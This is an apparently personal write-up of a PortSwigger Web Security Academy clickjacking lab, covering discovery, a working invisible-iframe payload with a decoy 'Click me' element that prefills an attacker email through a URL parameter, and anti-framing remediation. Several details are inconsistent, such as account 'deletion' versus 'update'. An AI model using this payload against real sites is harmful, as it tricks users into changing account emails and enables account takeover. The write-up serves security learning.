




# LAB 02 - Clickjacking with form input data prefilled from a URL parameter

## Lab Information

- **Category:** Click Jacking
- **Type:** CSRF Token
- **Difficulty:** APPRENTICE
- **Status:** ✅ Solved
- **Date:** 2026-9-24

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A "Clickjacking" vulnerability was discovered in the account update function. Additionally, the parameter responsible for updating the email address could be controlled via the URL; the account page—accessible to logged-in users—lacked effective anti-framing protections, allowing it to be embedded within an `iframe` and enabling the email value to be set through the URL specified in the `src` attribute. A deceptive UI element was placed over the actual "Update Account" button, directing the victim's click toward the sensitive action underneath.

---

# Objective

This lab aims to demonstrate how an attacker can embed an authenticated account page within an iframe, control the email value by including it in the `src` attribute's URL, hide the original interface using CSS, and overlay a deceptive element on the "Update Account" button to trick the victim into unintentionally performing the account update action.

---

# Vulnerability Overview

A clickjacking vulnerability occurs when an attacker tricks a victim into believing they are clicking on an element on a specific page, while the click is actually registered on a different site all in the absence of any protective mechanisms against such attacks.

---


# Attack Requirements

1. The target page must be frameable by the attacker.
2. The attacker must be able to control the framing page's layout and CSS.
3. The target page must contain a security-sensitive user action that can be triggered through a click.
4. The victim must be authenticated to the target application.

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Primary Endpoint | `/my-account/update` |
| Primary HTTP Method | POST |
| Primary Action | Account deletion |
| CSRF Parameter | `csrf` |
| Authentication | Session cookie |
| Attack Platform | Exploit Server |
| Attack Vector | Cross-site HTML / iframe |

---

# Methodology

1. Log in to the lab using the provided credentials.
2. Navigate to the authenticated page `/my-account?id=wiener`.
3. Capture the request for the authenticated page (the account page) using Burp Suite.
4. Review the server response to check for anti-framing protections.
5. Verify that the response does not include the `X-Frame-Options` header or the Content Security Policy (CSP) `frame-ancestors` directive.
6. Experiment with including the `email` parameter in the URL on the email update page.
7. Observe that the `email` field value changes to the value you included in the URL.
8. Embed the authenticated page within an `iframe` hosted on the exploit server.
9. Position a deceptive element over the legitimate "Update account" button.
10. Deliver the exploit to the victim and verify that the account deletion action is executed.
    
---

# Discovery Process

### Step 1 — Capture login request

```text
GET /my-account?id=wiener HTTP/2
HOST: XXXXXXXXXX web-security-academy.net
Cookie: session=XXXXXXXXX
```

The request displays the username "wiener" along with the session data; we use the Repeater to resend the same request and obtain the server's response for analysis.

### Step 2 — Reviewing the response

```text
HTTP/2 200 OK
Content-Type text/html; charset-utf-8
Cache-control:no-cache
Content-Length: 6654
```
Upon examining the response, we observe the absence of any protection mechanism against clickjacking vulnerabilities, such as `X-Frame-Options` or `Content-Security-Policy`.

### Step 3 — Form Validation

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
 <label>Email</label>
 <input required="" type="email" name="email" value="">
 <input required="" type="hidden" name="csrf" value="XXXXXXX">
 <button class="button" type="submit"> Update email </button> </form>
```
This form, which handles email updates, includes an email input and a CSRF token; however, the token is not important here because we do not intend to create a request.

### Step 3 — Including a new title within the URL

```URL
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=test@gmail.com
```
We observe that the value of the `email` field changes when a new email address is included in the URL; this allows us to embed any address we control within the frame via the `src` attribute, which accepts a URL.

---

# Payload Analysis

## Payload Used

```html
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0;
        z-index: 2;
    }

    .decoy {
        position: absolute;
        z-index: 1;
        top: 510px;
        left: 70px;
    }
</style>

<div class="decoy">Click me</div>

<iframe src="https://LAB ID.web-security-academy.net/my-account?email=test@gmail.com">
</iframe>
```

## Why This Payload Works

```html
<style>
   iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0;
        z-index: 2;
    }

```
Specific to the frame's formatting ranging from its height, distance from the left, transparency, and stacking order to its length, width, positioning, and edges.

```html
.decoy {
        position: absolute;
        z-index: 1;
        top: 510px;
        left: 70px;
    }
</style>
```
This section covers the styling of the button that will appear above the email update button; we adjust its height, left offset, position, and stacking order.

```html
<div class="decoy">Click me</div>

```
This part deals with creating the dummy button and the text within it.

```html
<iframe src="https://LAB-ID.web-security-academy.net/my-account?email=test@gmail.com"></iframe>
```
This section covers creating the frame and embedding the target page within it, as well as including an attacker-controlled email address using the `src` attribute.

---

# Exploitation Flow

```text

Victim Browser
      │
      ▼
opens attacker's page
      │
      ▼
iframe → /my-account?email=test@example.com
      │
      ▼
real authenticated page
      │
      ▼
email field already contains
test@example.com
      │
      ▼
Victim clicks deceptive element
      │
      ▼
real "Update email" button
      │
      ▼
real form submitted
      │
      ▼
valid CSRF token included
      │
      ▼
   Click me
      │
      ▼
 [Update email] 
  
```

---

# Impact

The demonstrated impact involves updating the account without authorization.

A successful clickjacking attack can trick an authenticated victim into unintentionally triggering the application's account update function with a single click.

Since updating the account is a destructive and potentially irreversible action, successfully exploiting the vulnerability could result in the loss of the user's account and associated data.

This lab specifically demonstrates this impact; further consequences depend on the functionality and sensitivity of the target application.

---

# Root Cause

The root cause is the absence of effective anti-framing controls on the authenticated account page. The application does not restrict which external origins are permitted to embed the page through an iframe.

As a result, an attacker can frame the authenticated page and use CSS-based UI redressing to align a deceptive interface element with a legitimate security-sensitive action.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Medium |
| CVSS Score | Not calculated |
| CWE | CWE-1021: Improper Restriction of Rendered Page Layers or Frames |
| OWASP Reference | OWASP Click Jacking Prevention Guidance |
| Exploitability | Demonstrated in lab |
| Business Impact | Unauthorized account deletion and potential loss of associated account data |

---

# Remediation

- ### Content Security Policy

Implement the `frame-ancestors` directive to explicitly control which origins are allowed to embed the application.

Examples:

Content-Security-Policy: frame-ancestors 'none';

or:

Content-Security-Policy: frame-ancestors 'self';


- ### X-Frame-Options

Deploy `X-Frame-Options` as an additional anti-framing control:

X-Frame-Options: DENY

or:

X-Frame-Options: SAMEORIGIN
    
---

# Lessons Learned

- The presence of a valid CSRF token does not inherently prevent Clickjacking. When the authenticated page is successfully framed and the       victim interacts with the overlaid interface, the legitimate form submission can include the valid CSRF token.
- UI Redressing Mechanism: The attack relies on layering two elements using CSS; the target website is rendered completely invisible via the    opacity property (`opacity: 0`), while deceptive buttons are placed over it to entice the victim into clicking.
- The Importance of Element Alignment: The technical success of the attack relies on precision in using positioning properties (such as         `top`, `left`, and `z-index`) to align the hidden, sensitive buttons with the visible, decoy buttons.
- Absence of basic browser defenses: The lab demonstrates that the site is vulnerable due to the lack of security headers that prevent          framing such as the `X-Frame-Options` header or the Content Security Policy (CSP), specifically the `frame-ancestors` directive.
- Severity of Impact: The attack demonstrates the potential to force a user into taking critical, irreversible actions (such as permanently      updating their account) with a single unintentional click.
- CSRF Token Limitation: A valid CSRF token protects against certain forged requests, but it does not by itself prevent Clickjacking when an    attacker can cause the victim to interact with the legitimate framed page.


---

# References

- PortSwigger Web Security Academy — Click Jacking
- OWASP — Click Jacking Defense Cheat Sheet
- Mozilla Developer Network (MDN Web Docs)
- FIRST — CVSS Specification

---

# Screenshots

## Request 


...

## Test



...

## Check Security


...

## View exploit



...

## Payload



...


## Successful 



---

# Conclusion

This practical assessment revealed a "Clickjacking" vulnerability affecting a critical action: account updating.

In the absence of defensive mechanisms against this vulnerability such as `X-Frame-Options` or `Content-Security-Policy` an attacker can embed the target page (which contains the sensitive account-update action) within an `<iframe>`. By setting the frame's opacity to zero, the attacker makes it difficult for the victim to see what they are clicking on; then, by positioning a `<div>` element over the account-deletion button, the attacker tricks the victim into clicking it.

The key aspect is that protection against clickjacking attacks requires the use of Content Security Policy (CSP)—specifically the `frame-ancestors` directive—enabling the `X-Frame-Options` security header, and securing cookies via the `SameSite` attribute.

The lesson learned here is that the CSRF token does not protect the page against clickjacking attacks.
